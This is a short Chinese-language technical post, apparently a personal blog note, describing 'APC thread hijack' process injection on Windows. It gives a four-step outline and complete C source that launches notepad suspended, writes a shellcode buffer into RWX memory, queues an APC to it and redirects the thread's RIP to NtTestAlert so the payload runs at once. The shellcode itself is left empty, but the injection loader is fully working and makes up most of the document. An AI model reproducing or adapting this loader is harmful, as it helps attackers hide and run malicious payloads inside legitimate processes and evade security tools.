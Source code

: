 # APC Thread Hijack

## 简介

我也不知道为什么要写这个....这玩意有点像脱裤子放屁....

昨天和某个dalao谈论了一下apc注入，我们经过友好的技术交流\(迫真\)，意识到了三环插入的apc无法确定时间执行，于是有了这个东西。

## 流程

1. 插入apc
2. 挂起线程
3. 修改rip指向NtTestAlert函数
4. 恢复线程

## 代码

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] ="";

typedef VOID(NTAPI* pNtTestAlert)(VOID);

int main() {
	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };
	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");
	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
	//Sleep(1000);//Wait for thread initialization to complete -> nttestalert is executed
	//SuspendThread(pi.hThread);
	LPVOID lpBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pi.hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL);
	CONTEXT ctx = { 0 };
	QueueUserAPC((PAPCFUNC)lpBuffer, pi.hThread, NULL);
	ctx.ContextFlags = CONTEXT_ALL;
	GetThreadContext(pi.hThread, &ctx);
	ctx.Rip = (DWORD64)NtTestAlert;
	SetThreadContext(pi.hThread, &ctx);
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//NtTestAlert();
	return 0;
}
```

